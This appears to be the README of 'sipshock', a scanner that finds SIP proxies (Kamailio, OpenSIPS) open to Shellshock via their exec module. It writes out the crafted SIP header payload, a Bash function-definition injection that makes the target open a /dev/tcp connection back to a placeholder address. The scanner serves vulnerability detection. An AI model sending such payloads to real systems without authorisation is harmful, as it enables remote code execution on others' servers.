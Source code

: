 ### A scanner for SIP proxies vulnerable to Shellshock
---

#### Usage:
sipshock [ Flags ] [ IP Addresses ]

#### Usage flags:
- listen : Local listening address
- lport  : Local listening port (default 10111)
- rport  : Remote port (default 5060)

The exec module in Kamailio, Opensips and propably every other SER fork
passes the received SIP headers as environment variables to the invoking shell.
This makes these SIP proxies vulnerable to CVE-2014-6271 (Bash Shellshock).
If a proxy is using any of the exec funtions and has the 'setvars' parameter set to the default value '1'
then by sending SIP messages containing a specially crafted header we can run arbitrary code on the
proxy machine.

Sipshock tries to detect such vulnerable proxies by sending SIP INVITE Messages
containing the following header: "X-Ploit: () { :;};exec >/dev/tcp/xx.xx.xx.xx/yy"
where xx.xx.xx.xx/yy is the local IP and port that sipshock listens to.
A vulnerable server will invoke a shell that will execute the code above and
open a tcp connection to xx.xx.xx.xx:yy. Sipshock detects the connection and
lists the server as vulnerable.

This program is free software, distributed under the terms of
the GNU General Public License Version 3. See the LICENSE file
at the top of the source tree.
